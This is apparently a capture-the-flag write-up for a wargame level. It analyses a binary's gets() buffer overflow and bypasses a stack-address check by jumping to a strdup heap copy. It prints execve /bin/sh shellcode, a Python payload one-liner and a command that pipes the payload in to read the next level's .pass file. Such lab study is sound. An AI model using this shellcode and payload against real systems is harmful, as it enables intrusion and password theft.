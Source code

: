 # Level 2

## Step 1 : Analyse p() function

There is nothing interesting in `main()` so lets go straight to `p()`.

```
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

First we can see that the function `gets()` is use, and we know that we can use it to create a buffer overflow exploit.

The thing is that in this case, there is no call to `system()` or `execv()` in the program.
So we are going to need to use that buffer to write what we call "shellcode".

Also, there is a check (line 39->44) to prevent overwriting the return address to an address within the stack range (0xbf000000 - 0xbfffffff).

## Step 2 : Exploiting the heap

```
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
```

Since overwriting the return address on the stack is not possible, the exploit can be directed towards the heap.
We notice that the buffer is later copied inside a `strdup` function. `eax` is set to the string's address after `strdup` return.
This address is `0x804a008`.

## Step 3 : Crafting the Payload

To exploit the buffer overflow, we need to craft a payload that will:

1. Execute a shellcode on the heap.
2. Overwrite the return address with the address of the allocated heap space.

The shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-575.php) is used for the exploit:

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

To determine the offset to overwrite the `eip` (return address) on the stack, we can use a pattern generator like [this](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

The idea is to generate a string to input in the program. In gdb, when the program segfault, the last eip address is displayed. We need to submit this address in the website to know the offset of `eip`: the offset if `0x50` (80).

## Step 4 : Exploiting the Vulnerability

The shellcode is 21 bytes long, to reach the return address location we are gonna add 59 bytes to our string and then the address of the the allocated string on the heap.

```
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xb0\x04\x08"' > /tmp/payload
```

Let's pipe this into the program

```
(cat /tmp/payload; echo "cat /home/user/level3/.pass") | ~/level2
```
